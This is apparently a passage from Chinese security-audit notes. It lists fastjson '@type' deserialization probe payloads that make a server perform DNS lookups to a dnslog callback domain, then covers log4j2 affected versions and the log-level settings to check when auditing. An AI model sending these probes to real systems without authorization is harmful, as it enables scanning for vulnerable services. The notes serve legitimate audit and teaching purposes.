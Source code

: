 由于fastjson采用的黑名单修复，很多类不一定能加载，以下dnslong仅限于证明参数用户可控，具体能否漏洞利用成功受限于具体的fastjson版本以及jdk版本。


```
{"@type":"java.net.URL","val":"http://8157cfb94b.ipv6.1433.eu.org"}
{{"@type":"java.net.URL","val":"http://8157cfb94b.ipv6.1433.eu.org"}:"x"}
{"@type":"java.net.InetAddress","val":"dnslog"}
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{{"@type":"java.net.URL","val":"dnslog"}:"aaa"}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}
Set[{"@type":"java.net.URL","val":"http://dnslog"}]
Set[{"@type":"java.net.URL","val":"http://dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
{{"@type":"java.net.URL","val":"http://dnslog"}:0
```

案例：

![](/dmsj_img/Pasted%20image%2020241210223032.png)

![](/dmsj_img/Pasted%20image%2020241210223001.png)
这个参数非常清晰：
![](/dmsj_img/Pasted%20image%2020241210223409.png)

![](/dmsj_img/Pasted%20image%2020241210224920.png)

![](/dmsj_img/Pasted%20image%2020241210224936.png)


![](/dmsj_img/Pasted%20image%2020241210225915.png)

## 3、log4j2

Apache Log4j 2.x <= 2.15.0-rc1

log4j2的触发点审计需要知道一些前提知识点：

```
log4j的日志记录具有等级划分：
ALL < TRACE < DEBUG < INFO < WARN < ERROR < FATAL < OFF
默认情况下只会记录大于WARN等级的日志，也就是说默认情况下，我们的审计关键词为logger.error和logger.fatal

但是也有修改等级的方法，审计的时候需要注意：

1、通过编程方式设置
import org.apache.logging.log4j.Level
logger.setLevel(Level.DEBUG); // 设置日志等级为 DEBUG

2、XML 配置文件
    <Loggers>
        <Root level="debug">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>

3、 JSON 配置文件
 "Loggers": {
      "Root": {
        "level": "debug",
        
4、 YAML 配置文件
  Loggers:
    Root:
      level: debug
```